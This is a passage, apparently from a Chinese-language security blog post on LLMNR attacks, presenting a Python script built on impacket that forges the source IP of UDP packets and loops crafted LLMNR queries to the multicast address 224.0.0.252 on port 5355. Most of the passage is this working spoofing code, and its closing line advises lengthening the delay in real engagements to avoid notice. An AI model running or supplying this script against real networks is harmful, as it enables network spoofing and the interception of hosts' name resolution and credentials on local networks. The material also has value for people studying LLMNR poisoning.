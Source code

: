 修改 UDP 源 IP 的代码如下：

[UDP Source IP Spoof Demo Code](https://github.com/coca1ne/LLMNR_Her0in)

    
    
    #!python
    #/usr/bin/env python
    
    __doc__ = """
    
        UDP Source IP Spoof ,
                        by Her0in
    
    """
    
    import socket, time
    from impacket import ImpactDecoder, ImpactPacket
    
    def UDPSpoof(src_ip, src_port, dst_ip, dst_port, data):
        ip = ImpactPacket.IP()
        ip.set_ip_src(src_ip)
        ip.set_ip_dst(dst_ip)
    
        udp = ImpactPacket.UDP()
        udp.set_uh_sport(src_port)
        udp.set_uh_dport(dst_port)
    
        udp.contains(ImpactPacket.Data(data))
        ip.contains(udp)
    
        s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP)
        s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
        s.sendto(ip.get_packet(), (dst_ip, dst_port))
    
    if __name__ == "__main__":
        QueryData = (
            "\xa9\xfb"  # Transaction ID
            "\x00\x00"  # Flags Query(0x0000)? or Response(0x8000) ?
            "\x00\x01"  # Question
            "\x00\x00"  # Answer RRS
            "\x00\x00"  # Authority RRS
            "\x00\x00"  # Additional RRS
            "\x09"      # length of Name
            "Her0in-PC"    # Name
            "\x00"      # NameNull
            "\x00\x01"  # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
            "\x00\x01") # Class
    
        ip_src = "192.168.169.1"
        ip_dst = "224.0.0.252"
    
        while True:
            print("UDP Source IP Spoof %s => %s for Her0in-PC" % (ip_src, ip_dst))
            UDPSpoof(ip_src, 18743,ip_dst , 5355, QueryData)
            time.sleep(3)
    

为了不要那么暴力,加个延时，实际上在 LLMNR 应答数据包中有一个 TTL 默认为 30s，所以在实战中为了隐蔽可以将延时加大
